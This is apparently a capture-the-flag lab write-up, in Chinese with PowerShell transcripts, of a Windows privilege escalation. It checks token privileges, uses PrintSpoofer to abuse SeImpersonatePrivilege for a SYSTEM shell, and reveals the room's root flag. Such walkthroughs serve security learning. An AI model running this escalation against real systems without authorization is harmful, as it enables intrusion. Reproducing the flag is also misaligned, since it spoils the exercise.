# 运行whoami /priv查看当前用户在系统中的权限
```
PS C:\inetpub\wwwroot\nt4wrksv> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

# 当前用户启用了SeImpersonatePrivilege，意味着可以利用令牌模拟来提升权限
从https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0下载64位的PrintSpoofer64.exe，然后通过smb上传到windows靶机

# 提权
PS C:\inetpub\wwwroot\nt4wrksv> .\PrintSpoofer64.exe -i -c cmd
.\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system


# 拿到root flag
```
PS C:\users\administrator\desktop> type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\users\administrator\desktop> 
```